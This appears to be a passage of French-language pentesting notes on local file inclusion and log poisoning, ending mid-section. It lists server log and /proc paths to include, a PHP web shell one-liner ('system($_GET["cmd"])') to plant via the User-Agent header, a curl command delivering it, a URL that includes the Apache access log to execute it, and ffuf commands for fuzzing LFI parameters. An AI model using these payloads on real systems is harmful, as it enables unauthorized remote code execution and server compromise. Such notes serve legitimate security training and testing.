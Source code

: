 > [!NGINX]
> /var/log/nginx/
> C:\nginx\logs\

> [!Autres fichiers logs intéressants]
> - `/var/log/sshd.log`
> - `/var/log/mail`
> - `/var/log/vsftpd.log`
> /proc/self/environ
> /proc/self/fd/N ->  N = pid



Shell à mettre dans User-Agent:

```php
<?php system($_GET["cmd"]); ?>
```

ou requête curl:

```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```


# Automated Scanning

## FUZZING des paramètres

Top 25 paramètres communs LFI
https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#top-25-parameters

Fuzzing des paramètres commun avec ffuf 

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value'
```

## FUZZING des LFI

fuzzing des LFI avec ffuf et la wordlist LFI-Jhaddix

```sh
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ'
```

## FUZZING des fichiers de serveurs

Racine du serveur web
